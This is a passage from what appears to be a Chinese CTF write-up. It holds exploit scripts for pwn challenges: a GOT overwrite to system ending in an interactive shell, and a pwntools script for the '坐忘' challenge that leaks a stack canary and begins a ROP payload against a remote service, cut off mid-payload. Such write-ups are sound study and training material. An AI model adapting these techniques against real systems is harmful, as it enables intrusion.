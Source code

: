 ```python
sl('8')
ru('content')
se(p64(0x602018))
ru('choice :')

edit(1,p64(system))

sl('4')
ru('index')
sl('3')

print(hex(puts))


p.interactive()

```

### 坐忘

简单leak canary，然后base64解码一下，直接栈溢出

```python
from pwn import *
import base64

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn9')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50009)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)


ru('>')
sl(base64.b64encode('a'*9))
ru('a'*9)
canary = u64('\0'+ru('\n')[:7])
ru('continue ?')
sl('yes')

r=ROP('./pwn9')
prdi = r.rdi[0]
prsi = r.rsi[0]
prdx = r.rdx[0]
bss = 0x6CCBA0
read = 0x43FF70
syscall = 0x43FF9F

context.arch = 'amd64'
payload = '\0'*8+p64(canary)
```
